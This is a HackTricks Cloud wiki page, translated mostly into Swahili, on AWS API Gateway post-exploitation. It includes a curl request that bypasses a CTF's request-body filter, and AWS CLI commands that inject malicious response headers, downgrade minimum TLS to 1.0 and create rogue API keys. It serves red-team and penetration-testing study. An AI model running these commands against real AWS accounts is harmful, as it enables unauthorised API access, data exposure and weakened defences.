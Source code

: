 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

Unaweza kuunda kiunganishi katika [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) na huduma `com.amazonaws.us-east-1.execute-api`, funua kiunganishi katika mtandao ambapo una ufikiaji (labda kupitia mashine ya EC2) na piga kundi la usalama linaloruhusu mawasiliano yote.\
Kisha, kutoka kwa mashine ya EC2 utaweza kufikia kiunganishi na hivyo kuita API ya gateway ambayo haikuwa imefunuliwa hapo awali.

### Bypass Request body passthrough

Teknolojia hii ilipatikana katika [**hii CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Kama ilivyoonyeshwa katika [**nyaraka za AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) katika sehemu ya `PassthroughBehavior`, kwa kawaida, thamani **`WHEN_NO_MATCH`**, wakati wa kuangalia kichwa cha **Content-Type** cha ombi, itapitisha ombi kwa nyuma bila mabadiliko.

Hivyo, katika CTF, API Gateway ilikuwa na kigezo cha uunganisho ambacho kilikuwa **kikizuia bendera kutolewa** katika jibu wakati ombi lilitumwa na `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Hata hivyo, kutuma ombi lenye **`Content-type: text/json`** kungesitisha hiyo chujio.

Hatimaye, kwa kuwa API Gateway ilikuwa ikiruhusu tu `Get` na `Options`, ilikuwa inawezekana kutuma uchunguzi wa dynamoDB bila kikomo kwa kutuma ombi la POST lenye uchunguzi katika mwili na kutumia kichwa `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Katika sehemu ya **Enumeration** unaweza kuona jinsi ya **kupata mpango wa matumizi** wa funguo. Ikiwa una funguo na ime **punguzia** matumizi X **kwa mwezi**, unaweza **kuitumia tu na kusababisha DoS**.

**API Key** inahitaji tu **kujumuishwa** ndani ya **HTTP header** inayoitwa **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateGatewayResponse` na `apigateway:CreateDeployment` anaweza **kubadilisha Jibu la Gateway lililopo ili kujumuisha vichwa vya habari vya kawaida au templeti za majibu ambazo zinavuja taarifa nyeti au kutekeleza scripts za uhalifu**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza skripti zenye uharibifu, au ufikiaji usioidhinishwa wa rasilimali za API.

{% hint style="info" %}
Hitaji la kupima
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateStage` na `apigateway:CreateDeployment` anaweza **kubadilisha hatua ya API Gateway iliyopo ili kuelekeza trafiki kwenye hatua tofauti au kubadilisha mipangilio ya caching ili kupata ufikiaji usioidhinishwa wa data iliyohifadhiwa**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa data iliyohifadhiwa, kuingilia au kukamata trafiki ya API.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:PutMethodResponse` na `apigateway:CreateDeployment` anaweza **kubadilisha jibu la njia ya API Gateway REST API iliyopo ili kujumuisha vichwa vya kawaida au templeti za majibu ambazo zinavuja taarifa nyeti au kutekeleza skripti zenye uharibifu**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Madhara Yanayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza skripti zenye uharibifu, au ufikiaji usioidhinishwa wa rasilimali za API.

{% hint style="info" %}
Hitaji la kupima
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateRestApi` na `apigateway:CreateDeployment` anaweza **kubadilisha mipangilio ya API Gateway REST API ili kuzima uandishi wa kumbukumbu au kubadilisha toleo la chini la TLS, ambayo inaweza kudhoofisha usalama wa API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Madhara Yanayoweza Kutokea**: Kupunguza usalama wa API, ambayo inaweza kuruhusu ufikiaji usioidhinishwa au kufichua taarifa nyeti.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Mshambuliaji mwenye ruhusa `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, na `apigateway:CreateUsagePlanKey` anaweza **kuunda funguo mpya za API, kuziunganisha na mipango ya matumizi, na kisha kutumia funguo hizi kwa ufikiaji usioidhinishwa kwa APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa rasilimali za API, kupita udhibiti wa usalama.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
